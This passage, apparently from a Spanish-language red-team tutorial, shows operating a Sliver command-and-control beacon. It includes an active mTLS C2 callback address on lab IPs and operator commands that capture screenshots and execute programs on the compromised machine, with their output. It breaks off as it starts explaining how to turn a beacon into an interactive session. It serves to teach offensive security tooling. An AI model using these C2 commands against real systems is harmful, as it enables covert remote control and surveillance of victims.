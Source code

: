 ```bash
         Active C2: mtls://172.19.0.128:8888
    Remote Address: 172.19.0.131:50281
         Proxy URL: 
          Interval: 5s
            Jitter: 3s
     First Contact: Mon Nov 27 10:46:38 CST 2023 (3m54s ago)
      Last Checkin: Mon Nov 27 10:50:31 CST 2023 (1s ago)
      Next Checkin: Mon Nov 27 10:50:36 CST 2023 (in 4s)

```
{% endcode %}

Notese, que cuando se ejecuta el comando screenshot, se lanza como una tarea (task), esto es asi dado que la conexión no es continua, cuando el beacon se conecte con el cliente C2, este ejecutara todas las tareas en la pira de tareas.

```bash
sliver (PLEASED_ATTIC) > screenshot 

[*] Tasked beacon PLEASED_ATTIC (f1e7c29b)

[server] sliver (PLEASED_ATTIC) > execute notepad

[*] Tasked beacon PLEASED_ATTIC (bfe4ed45)

[+] PLEASED_ATTIC completed task bfe4ed45

[*] Command executed successfully

[+] PLEASED_ATTIC completed task f1e7c29b

[*] Screenshot written to /tmp/screenshot_DESKTOP-V9TDLK0_20231127105214_1412533638.png (300.6 KiB)
 
[server] sliver (PLEASED_ATTIC) > tasks

 ID         State       Message Type   Created                         Sent                            Completed                     
========== =========== ============== =============================== =============================== ===============================
 54298d20   pending     Execute        Mon, 27 Nov 2023 10:52:46 CST                                                                  
 f1e7c29b   completed   Screenshot     Mon, 27 Nov 2023 10:52:08 CST   Mon, 27 Nov 2023 10:52:14 CST   Mon, 27 Nov 2023 10:52:14 CST 

```

Con el comando tasks, se pueden listar todas las tareas pendientes o completadas por el beacon.

## Beacon to Session

Es posible cambiar de modo beacon a modo sesión con el comando `interactive`. Esto ejecutará una tarea que obligará al beacon a convertirse en modo sesión:
